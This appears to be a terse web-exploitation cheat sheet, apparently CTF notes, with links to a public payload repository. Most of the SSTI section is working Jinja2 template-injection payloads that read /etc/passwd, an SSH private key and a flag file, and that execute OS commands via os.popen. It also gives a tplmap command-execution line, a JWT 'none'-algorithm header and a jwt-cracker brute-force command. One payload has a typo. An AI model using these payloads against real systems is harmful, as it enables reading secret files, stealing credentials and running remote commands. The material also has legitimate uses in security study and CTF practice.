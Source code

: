 # SSTI
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection
```
{{2+2}}

readfile
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/home/test/.ssh/id_rsa').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
{{config.__class__.__init__.__globals__['os'].popen(cat /etc/password).read()}}


osi
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}


tool
https://github.com/epinna/tplmap
python2 -m pip
tplmap -u http://10.10.10.10:5000/ -d 'noot' --os-cmd =cat /etc/passwd

```
# CSRF 
```
xsrfprobe
pip install xsrfprobe
xsrfprobe -u <url>/<endpoint>
```

# JWT
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token

https://jwt.io/
```
header.payload.secret
base64encoded

RS256 :hard
HS256:may easy 
none:may easy eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0


jwt-cracker eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.it4Lj1WEPkrhRo9a2-XHMGtYburgHbdS5s7Iuc1YKOE abcdefghijklmnopqrstuvwxyz 4


```

# xxe
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe
